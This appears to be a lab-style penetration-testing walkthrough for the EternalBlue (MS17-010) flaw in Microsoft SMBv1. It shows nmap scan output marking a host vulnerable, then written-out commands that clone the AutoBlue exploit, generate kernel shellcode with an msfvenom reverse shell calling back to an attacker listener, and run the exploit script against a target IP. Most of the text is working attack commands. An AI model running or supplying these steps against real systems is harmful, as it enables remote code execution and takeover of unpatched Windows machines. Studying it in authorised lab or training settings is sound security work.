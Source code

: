 ```
Host script results:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

## Manual Exploitation with AutoBlue

### Setup and Dependencies

```bash
# Clone the exploit repository
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010

# Install Python dependencies
pip install -r requirements.txt

# Navigate to shellcode directory
cd shellcode
```

### Shellcode Generation

```bash
# Make the shellcode preparation script executable
chmod +x shell_prep.sh

# Generate shellcode
./shell_prep.sh
```

**Interactive Setup Example:**

```
[*] Kernel shellcode compiled. Would you like to auto generate a reverse shell with MSFVenom? (Y/n): Y
[+] LHOST: 10.10.10.10
[+] LPORT: 4444
[+] Generating x64 reverse shell...
[+] Shellcode generation complete!
```

### Exploitation Execution

```bash
# Navigate back to main directory
cd ..

# Set execute permissions on exploit
chmod +x eternalblue_exploit7.py

# Run the exploit
python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin
```
